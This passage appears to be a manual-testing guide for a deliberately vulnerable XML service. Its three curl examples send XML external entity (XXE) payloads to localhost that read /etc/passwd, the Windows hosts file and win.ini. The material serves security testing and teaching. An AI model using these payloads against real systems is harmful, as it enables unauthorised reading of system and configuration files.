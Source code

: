 1. **`/xml-raw`** - Processes raw XML and reflects content
2. **`/xml`** - Deserializes XML into structured data

## Manual Testing

### Test Payload 1: Basic File Read

```bash
curl -X POST http://localhost:8080/xml-raw \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ELEMENT root ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>'
```

### Test Payload 2: Structured Data

```bash
curl -X POST http://localhost:8080/xml \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE UserData [
<!ELEMENT UserData ANY>
<!ELEMENT name ANY>
<!ELEMENT email ANY>
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<UserData>
    <name>&xxe;</name>
    <email>test@example.com</email>
</UserData>'
```

### Test Payload 3: Windows Files

```bash
# Windows hosts file
curl -X POST http://localhost:8080/xml-raw \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ELEMENT root ANY>
<!ENTITY xxe SYSTEM "file:///C:/Windows/System32/drivers/etc/hosts">
]>
<root>&xxe;</root>'

# Windows INI file
curl -X POST http://localhost:8080/xml-raw \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ELEMENT root ANY>
<!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini">
]>
<root>&xxe;</root>'
```
